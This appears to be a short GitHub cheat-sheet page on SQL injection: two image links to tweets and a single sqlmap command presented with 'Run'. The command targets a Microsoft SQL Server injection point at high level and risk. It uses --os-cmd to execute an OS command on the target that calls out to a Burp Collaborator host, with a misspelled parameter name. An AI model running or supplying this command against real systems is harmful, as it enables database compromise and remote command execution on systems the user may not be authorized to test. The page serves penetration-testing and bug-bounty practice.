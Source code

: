 <h1 align="center">SQLI --> SQL Injection</h1>

<a href="https://twitter.com/hackersden_/status/1465229358545526787"><img width="550" height="600px" align="left" src="https://user-images.githubusercontent.com/79082257/143884335-9adfa71d-7b23-49b7-9afb-996e800d1c68.png"/></a>

Run

```bash
  sqlmap -r request.txt --force-ssl -p pramater --level 5 --risk 2 -dbms="Microsoft SQL Server" --os-cmd="ping http://your.burpcollaborator.net"
```

<h2 align="left">---------------------------------</h2>

<a href="https://twitter.com/GodfatherOrwa/status/1439247081655447566"><img width="550" height="700px" align="left" src="https://user-images.githubusercontent.com/79082257/143886364-f03183e1-5922-4b79-9002-a04bfa55c56a.png"/></a>

